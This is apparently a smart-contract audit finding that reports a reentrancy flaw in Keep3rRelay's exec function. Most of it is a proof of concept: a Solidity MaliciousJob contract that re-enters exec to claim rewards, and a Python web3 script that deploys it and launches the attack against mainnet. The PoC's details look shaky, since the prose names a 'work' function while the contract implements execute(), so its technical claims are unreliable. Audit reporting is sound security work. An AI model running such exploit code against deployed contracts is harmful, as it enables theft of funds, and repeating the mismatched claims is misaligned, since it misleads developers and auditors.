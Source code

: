 Amateur Silver Corgi

medium

# Reentrancy Attack in Keep3rRelay's exec Function Allowing Unauthorized Manipulation and Excessive Reward Claims

## Summary
The Keep3rRelay contract contains a vulnerability in its `exec` function, which can be exploited by malicious actors to perform a reentrancy attack. This vulnerability allows an attacker to execute malicious jobs in the `Keep3rRelay` system and potentially claim excessive rewards or manipulate the contract in unauthorized ways. By taking advantage of the reentrancy vulnerability, the attacker can repeatedly call the exec function and drain funds from the contract or execute other malicious operations.

## Vulnerability Detail
The `exec` function in the `Keep3rRelay` contract is vulnerable to `reentrancy` attacks due to its lack of proper state management during the execution of a job. This function is responsible for executing jobs in the system, and it includes critical actions such as calling the job's work function and transferring rewards to keepers.

Problem: The `exec` function calls the job's work function, which can potentially be a contract controlled by a malicious actor. This call is made without any reentrancy guard, meaning that the malicious job can reenter the exec function before its execution completes.

## Impact
-    Manipulate the execution flow of the exec function.
-   Repeatedly claim excessive rewards from the Keep3rRelay contract.
-    Interfere with or manipulate the expected job execution logic.
-    Potentially drain funds from the Keep3rRelay contract.

## Code Snippet
https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/relays/Keep3rRelay.sol#L23


## Proof of Concept 
Deploy The Below Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IKeep3rRelay {
    function addJob(address _job) external;
    function exec(address _job) external;
    function worked(address _keeper) external;
}

contract MaliciousJob {
    IKeep3rRelay public keep3rRelay;
    bool public reentrancyFlag = false;

    // Constructor to initialize the Keep3rRelay address
    constructor(address _keep3rRelay) {
        keep3rRelay = IKeep3rRelay(_keep3rRelay);
    }

    // Function to register this contract as a job with Keep3rRelay
    function registerAsJob() external {
        keep3rRelay.addJob(address(this));
    }

    // Function that gets called when Keep3rRelay executes this job
    function execute() external {
        // Perform malicious actions here
        
        // Call the exec function of Keep3rRelay while it's still executing
        if (!reentrancyFlag) {
            reentrancyFlag = true;
            keep3rRelay.exec(address(this));
        }

        // Mark the job as worked to receive rewards
        keep3rRelay.worked(msg.sender);
    }
}

```
```bash
pip install web3
```

```python
import json
from web3 import Web3
from web3.contract import Contract

# Connection to Ethereum node
infura_url = "https://mainnet.infura.io/v3/YOUR_INFURA_PROJECT_ID"
web3 = Web3(Web3.HTTPProvider(infura_url))

# Check if connected
assert web3.isConnected(), "Failed to connect to Ethereum node."

# Load the ABI and bytecode for the MaliciousJob contract
with open("MaliciousJob.json") as f:
    contract_data = json.load(f)

# Set up the account that will deploy and execute the attack
account_address = "0xYourEthereumAddress"
private_key = "0xYourPrivateKey"

# Load the Keep3rRelay contract address and ABI
keep3r_relay_address = "0xKeep3rRelayContractAddress"
keep3r_relay_abi = [
    # Keep3rRelay ABI details as a list of dicts
    # For example: {"constant": True, "inputs": [...], "name": "addJob", ...},
    # Fill the ABI as needed from the Keep3rRelay contract
]

# Instantiate Keep3rRelay contract
keep3r_relay_contract = web3.eth.contract(address=keep3r_relay_address, abi=keep3r_relay_abi)

# Deploy the MaliciousJob contract
def deploy_malicious_job():
    # Instantiate the MaliciousJob contract
    malicious_job_contract = web3.eth.contract(
        abi=contract_data["abi"],
        bytecode=contract_data["bytecode"]
    )

    # Transaction details
    transaction = {
        "from": account_address,
        "nonce": web3.eth.get_transaction_count(account_address),
        "gas": 2000000,
        "gasPrice": web3.eth.gas_price,
    }

    # Deploy the contract
    tx_hash = malicious_job_contract.constructor(keep3r_relay_address).transact(transaction)
    tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
    
    # Get the contract address from the transaction receipt
    contract_address = tx_receipt.contractAddress
    print(f"MaliciousJob contract deployed at address: {contract_address}")
    
    return contract_address

# Execute the attack
def execute_attack(malicious_job_address):
    # Instantiate the MaliciousJob contract
    malicious_job_abi = contract_data["abi"]
    malicious_job_contract = web3.eth.contract(address=malicious_job_address, abi=malicious_job_abi)

    # Register the malicious job
    tx_hash = malicious_job_contract.functions.registerAsJob().transact({
        "from": account_address,
        "gas": 200000,
        "gasPrice": web3.eth.gas_price,
    })
    web3.eth.wait_for_transaction_receipt(tx_hash)
    print(f"MaliciousJob registered as a job in Keep3rRelay.")

    # Execute the malicious job
    tx_hash = keep3r_relay_contract.functions.exec(malicious_job_address).transact({
        "from": account_address,
        "gas": 300000,
        "gasPrice": web3.eth.gas_price,
    })
    web3.eth.wait_for_transaction_receipt(tx_hash)
    print(f"Executed malicious job.")

if __name__ == "__main__":
    malicious_job_address = deploy_malicious_job()
    execute_attack(malicious_job_address)

```
## Tool used

Manual Review

## Recommendation
-    Implement reentrancy guards in the `exec` function to prevent reentrancy attacks.
-    Use a state management mechanism to track ongoing executions and prevent reentry during job execution.
-    Validate and restrict the types of jobs that can be submitted to the Keep3rRelay system to prevent malicious actors from exploiting the system.